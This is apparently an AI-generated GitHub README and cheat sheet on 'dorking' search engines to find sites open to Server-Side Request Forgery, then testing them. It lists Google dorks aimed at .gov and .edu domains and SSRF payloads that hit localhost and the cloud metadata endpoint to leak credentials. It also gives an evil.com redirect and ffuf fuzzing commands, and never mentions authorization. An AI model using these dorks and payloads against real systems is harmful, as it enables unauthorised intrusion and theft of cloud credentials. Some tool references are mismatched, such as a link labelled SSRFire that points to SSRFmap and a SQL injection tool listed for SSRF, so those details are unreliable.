 # Dorking-for-SSRF-
Dorking for **SSRF (Server-Side Request Forgery)** vulnerabilities involves using search engines (usually Google, Bing, or Shodan) to find URLs or parameters that are likely to interact with server-side fetch/request functionality. These parameters can then be tested for SSRF.

---

### 🔍 1. **Understanding SSRF Dorking**

SSRF occurs when a server fetches a remote resource (like a URL) provided by the user. The goal is to find URLs or parameters that trigger backend HTTP requests.

Look for:

* `url=`
* `uri=`
* `link=`
* `src=`
* `target=`
* `next=`
* `data=`
* `redirect=`
* `domain=`
* `file=`
* `image=`
* `feed=`
* `host=`

---

### 🔎 2. **Google Dorks for SSRF**

Here are **useful Google Dorks** to find URLs that might be vulnerable:

```
inurl:"url=" intext:"http"
inurl:"redirect=" intext:"http"
inurl:"?next=http" site:*.gov
inurl:"?img_url=http" OR inurl:"?proxy=http"
inurl:"load.php?url="
inurl:"api.php?url="
inurl:"fetch?uri="
inurl:"file=http"
inurl:"src=http" site:*.edu
```

**Examples:**

```
site:example.com inurl:"url="
site:*.gov inurl:"redirect="
site:*.edu inurl:"file=http"
```

---

### 🛰 3. **Shodan Dorks (SSRF with Internal Services)**

Shodan is useful for identifying servers exposing internal or SSRF-prone services.

Example Shodan Queries:

```
http.title:"Dashboard" port:80
http.html:"url=" country:"BD"
```

---

### 🧪 4. **Testing Found URLs for SSRF**

After collecting URLs, use tools like:

* [`curl`](https://curl.se/)
* [`ffuf`](https://github.com/ffuf/ffuf)
* [`SSRFire`](https://github.com/RandomRobbieBF/SSRFmap)
* [`Burp Suite`](https://portswigger.net/burp)
* [`Ghauri`](https://github.com/r0oth3x49/ghauri) (for automated injection detection)

Payload Examples:

```bash
http://target.com/page?url=http://127.0.0.1:80
http://target.com/page?url=http://169.254.169.254/latest/meta-data/
http://target.com/page?next=https://evil.com/
```

You can automate with a script or use `ffuf`:

```bash
ffuf -u "http://target.com/page?url=FUZZ" -w urls.txt
```

---

### 🛠 5. **Custom Wordlist for SSRF Parameters**

Create your own SSRF param wordlist (`ssrf-params.txt`):

```
url=
uri=
redirect=
next=
data=
file=
img_url=
image=
link=
host=
src=
```

Then fuzz endpoints like:

```bash
ffuf -u "http://target.com/FUZZ=http://127.0.0.1" -w ssrf-params.txt
```

---

### 🛡 6. **Tips for Finding SSRF**

* Always test with **localhost**, **127.0.0.1**, or **internal cloud IPs** (`169.254.169.254`).
* Test for **DNS resolution**, **error messages**, or **timeouts**.
* SSRF to cloud services (AWS/GCP metadata URLs) can leak credentials.

---

Want a Bash or Python tool to automate SSRF dorking and scanning? Let me know.
